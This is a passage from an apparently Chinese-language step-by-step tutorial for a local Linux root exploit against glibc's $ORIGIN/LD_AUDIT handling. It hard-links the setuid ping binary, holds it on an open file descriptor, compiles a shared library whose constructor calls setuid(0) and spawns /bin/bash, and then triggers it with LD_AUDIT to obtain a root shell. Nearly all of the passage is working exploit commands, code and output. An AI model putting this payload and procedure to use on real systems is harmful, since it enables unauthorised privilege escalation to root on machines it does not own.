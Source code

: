 **2、将 / bin/ping 和 /tmp/exploit/target 建立链接**

```
ln /bin/ping /tmp/exploit/target

```

**3、将其加载到内存中**

```
exec 3< /tmp/exploit/target
接着可以查看他已经在内存中
ls -l /proc/$$/fd/3

lr-x------ 1 test test 64 08-21 23:05 /proc/3685/fd/3 -> /tmp/exploit/target


```

**4、接着删除我们刚刚创建的文件**

```
rm -rf /tmp/exploit
他会依旧存在内存中
ls -l /proc/$$/fd/3

lr-x------ 1 test test 64 08-21 23:05 /proc/3685/fd/3 -> /tmp/exploit/target (deleted)

```

**4、接着创建一个 payload.c**

```
void __attribute__((constructor)) init()
{
   setuid(0);
   system("/bin/bash");
}

```

然后再 gcc 编译

```
gcc -w -fPIC -shared -o /tmp/exploit payload.c

接着exploit目录只能够会存在这样的东西
ls -l /tmp/exploit

-rwxrwxr-x 1 test test 4223 08-21 23:08 /tmp/exploit


```

**5、提权执行下面命令, 成功 root 权限**

```
LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3

```
